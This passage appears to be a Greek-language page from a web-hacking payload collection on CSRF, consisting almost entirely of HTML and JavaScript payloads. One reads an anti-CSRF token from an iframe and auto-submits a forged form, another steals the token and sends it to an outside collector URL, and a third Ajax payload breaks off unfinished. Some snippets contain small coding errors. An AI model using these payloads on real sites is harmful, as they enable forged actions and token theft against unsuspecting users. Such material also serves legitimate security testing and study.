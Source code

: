 ```html

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
}
</script>
```
### **Κλέψε το token και στείλε το χρησιμοποιώντας 2 iframes**
```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POSTΚλέψε το CSRF token με Ajax και στείλε μια ανάρτηση με μια φόρμα**
```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
```